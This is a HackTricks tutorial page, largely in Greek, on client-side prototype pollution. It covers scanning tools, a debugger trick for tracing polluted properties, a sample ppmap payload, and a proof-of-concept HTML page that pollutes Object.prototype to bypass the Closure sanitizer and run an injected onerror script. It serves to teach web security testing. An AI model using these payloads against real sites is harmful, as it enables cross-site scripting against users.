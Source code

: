 # Client Side Prototype Pollution

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Discovering using Automatic tools

Τα εργαλεία [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **και** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) μπορούν να χρησιμοποιηθούν για **να βρουν ευπάθειες από ρύθμιση πρωτοτύπου**.

Επιπλέον, μπορείτε επίσης να χρησιμοποιήσετε την **επέκταση του προγράμματος περιήγησης** [**PPScan**](https://github.com/msrkp/PPScan) για **να σαρώσετε αυτόματα** τις **σελίδες** που **πρόσβαση** για ευπάθειες από ρύθμιση πρωτοτύπου.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Εύρεση της ρίζας του Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Μόλις εντοπιστεί μια ευπάθεια prototype pollution από οποιοδήποτε από τα εργαλεία, και αν ο κώδικας δεν είναι υπερβολικά περίπλοκος, μπορείς να βρεις την ευπάθεια αναζητώντας λέξεις-κλειδιά όπως `location.hash`, `decodeURIComponent`, ή `location.search` στα Chrome Developer Tools. Αυτή η προσέγγιση σου επιτρέπει να εντοπίσεις την ευάλωτη ενότητα του κώδικα JavaScript.

Για μεγαλύτερες και πιο περίπλοκες βάσεις κώδικα, μια απλή μέθοδος για να ανακαλύψεις τον ευάλωτο κώδικα περιλαμβάνει τα εξής βήματα:

1. Χρησιμοποίησε ένα εργαλείο για να εντοπίσεις μια ευπάθεια και να αποκτήσεις ένα payload σχεδιασμένο να ορίσει μια ιδιότητα στον κατασκευαστή. Ένα παράδειγμα που παρέχεται από το ppmap μπορεί να μοιάζει με: `constructor[prototype][ppmap]=reserved`.
2. Ορίστε ένα breakpoint στην πρώτη γραμμή του κώδικα JavaScript που θα εκτελεστεί στη σελίδα. Ανανεώστε τη σελίδα με το payload, παγώνοντας την εκτέλεση σε αυτό το breakpoint.
3. Ενώ η εκτέλεση του JavaScript είναι παγωμένη, εκτέλεσε το παρακάτω script στην κονσόλα JS. Αυτό το script θα σήμανε πότε δημιουργείται η ιδιότητα 'ppmap', βοηθώντας στην τοποθέτηση της προέλευσής της:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. Πλοηγηθείτε πίσω στην καρτέλα **Sources** και επιλέξτε “Resume script execution”. Το JavaScript θα συνεχίσει να εκτελείται και η ιδιότητα 'ppmap' θα μολυνθεί όπως αναμενόταν. Η χρήση του παρεχόμενου αποσπάσματος διευκολύνει την αναγνώριση της ακριβούς τοποθεσίας όπου μολύνεται η ιδιότητα 'ppmap'. Εξετάζοντας το **Call Stack**, μπορούν να παρατηρηθούν διαφορετικά στοίβες όπου συνέβη η μόλυνση.

Όταν αποφασίζετε ποια στοίβα να ερευνήσετε, είναι συχνά χρήσιμο να στοχεύετε σε στοίβες που σχετίζονται με αρχεία βιβλιοθηκών JavaScript, καθώς η μόλυνση πρωτοτύπων συμβαίνει συχνά μέσα σε αυτές τις βιβλιοθήκες. Εντοπίστε τη σχετική στοίβα εξετάζοντας τη σύνδεσή της με αρχεία βιβλιοθηκών (ορατά στη δεξιά πλευρά, παρόμοια με μια εικόνα που παρέχεται για καθοδήγηση). Σε σενάρια με πολλές στοίβες, όπως αυτές στις γραμμές 4 και 6, η λογική επιλογή είναι η στοίβα στη γραμμή 4, καθώς αντιπροσωπεύει την αρχική εμφάνιση της μόλυνσης και επομένως την ρίζα της ευπάθειας. Κάνοντας κλικ στη στοίβα θα σας κατευθύνει στον ευάλωτο κώδικα.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Εύρεση Gadget Σκριπτών

Το gadget είναι ο **κώδικας που θα κακοποιηθεί μόλις ανακαλυφθεί μια ευπάθεια PP**.

Εάν η εφαρμογή είναι απλή, μπορούμε να **αναζητήσουμε** λέξεις-κλειδιά όπως **`srcdoc/innerHTML/iframe/createElement`** και να ελέγξουμε τον πηγαίο κώδικα και να δούμε αν **οδηγεί σε εκτέλεση javascript**. Μερικές φορές, οι αναφερόμενες τεχνικές μπορεί να μην βρουν καθόλου gadgets. Σε αυτή την περίπτωση, η καθαρή ανασκόπηση του πηγαίου κώδικα αποκαλύπτει μερικά ωραία gadgets όπως το παρακάτω παράδειγμα.

### Παράδειγμα Εύρεσης Gadget PP στον κώδικα της βιβλιοθήκης Mithil

Ελέγξτε αυτή τη γραφή: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Ανασύνθεση payloads για ευάλωτες βιβλιοθήκες

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Παράκαμψη HTML Sanitizers μέσω PP

[**Αυτή η έρευνα**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) δείχνει gadgets PP που χρησιμοποιούνται για **να παρακάμψουν τις απολυμάνσεις** που παρέχονται από ορισμένες βιβλιοθήκες HTML sanitizers:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Αναφορές

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
